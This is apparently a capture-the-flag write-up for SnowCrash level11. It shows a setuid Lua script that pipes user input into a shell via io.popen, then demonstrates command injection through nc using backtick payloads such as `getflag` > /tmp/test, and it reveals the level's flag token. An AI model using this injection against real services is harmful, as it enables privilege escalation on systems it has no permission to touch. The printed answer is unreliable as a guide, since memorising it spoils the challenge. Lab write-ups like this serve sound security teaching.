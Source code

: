 # level11

## Hint

As we log in as level11, we see the source file for a lua script that is apparently already running on the machine:

```shell-session
level11@192.168.1.28's password:
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```

We easily see that there are some recurring falicies we have dealt with before, namely:
- `suid` set for the script
- A call to `socket` to address a local host IP `127.0.0.1` and a port `5151`
- A call to a system wide binary `echo`

```lua
#!/usr/bin/env lua
local socket = require("socket")                #<- System call socket
local server = assert(socket.bind("127.0.0.1", 5151)) #<- IP and PORT

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r") #<- System call echo
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

With all this information, and the absence of protection on the different system calls, there should be some code injection possible to escalate our user rights

## nc

As we did previously, we may listen a given IP and port, specifically the ones used by the lua script.

Unsurprisingly, we are greated with a prompt:

```shell-session
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: 
```

## getflag

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r") #<- pipe preventing printing to stdout 
```

Since the script uses a pipe to do its thing, we cannot see the output of that first call to `echo` but we can definitely redirect its output

After a few tries, and a redirection, we can easily get the script to interpret commands:

```shell-session
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo "42"` > /tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
42
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

